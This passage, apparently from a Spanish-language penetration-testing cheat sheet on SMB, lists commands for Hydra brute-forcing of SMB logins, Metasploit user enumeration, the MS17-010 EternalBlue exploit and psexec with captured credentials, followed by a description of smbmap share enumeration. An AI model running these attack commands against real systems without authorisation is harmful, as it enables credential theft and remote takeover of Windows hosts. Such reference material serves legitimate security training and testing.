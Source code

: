 ```bash
# Brute Force login
hydra -L user.txt -P pass.txt <IP> smb
```
{% endcode %}

## Explotación

### Metasploit

{% code overflow="wrap" %}
```perl
# Search for exploits
msf> search type:exploit platform:windows smb

# Enumerate local users
use auxiliary/scanner/smb/smb_lookupsid
set rhosts hostname.local
run

use auxiliary/scanner/smb/smb_enumusers
msf auxiliary(smb_enumusers) > set rhosts <IP>
msf auxiliary(smb_enumusers) > set smbuser <User>
msf auxiliary(smb_enumusers) > set smbpass <Pass>
msf auxiliary(smb_enumusers) > exploit


# MS17-010 Eternal Blue para windows
use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set rhost <IP>
msf exploit(ms17_010_eternalblue) > exploit

PSexec
use exploit/windows/smb/psexec
msf exploit windows/smb/psexec) > set rhost <IP>
msf exploit(windows/smb/psexec) > set smbuser <User>
msf exploit(windows/smb/psexec) > set smbpass <Pass>
msf exploit(windows/smb/psexec) > exploit
```
{% endcode %}

### smbmap

Una de las herramientas que utilizamos para la fase de reconocimiento es ‘**smbmap**‘. Smbmap es una herramienta de línea de comandos utilizada para enumerar recursos compartidos y permisos en un servidor SMB (Server Message Block) o Samba. Es una herramienta muy útil para la enumeración de redes y para la identificación de posibles vulnerabilidades de seguridad.

Con smbmap, puedes enumerar los recursos compartidos en un servidor SMB y obtener información detallada sobre cada recurso, como los permisos de acceso, los usuarios y grupos autorizados, y los archivos y carpetas compartidos. También puedes utilizar smbmap para identificar recursos compartidos que no requieren autenticación, lo que puede ser un problema de seguridad.
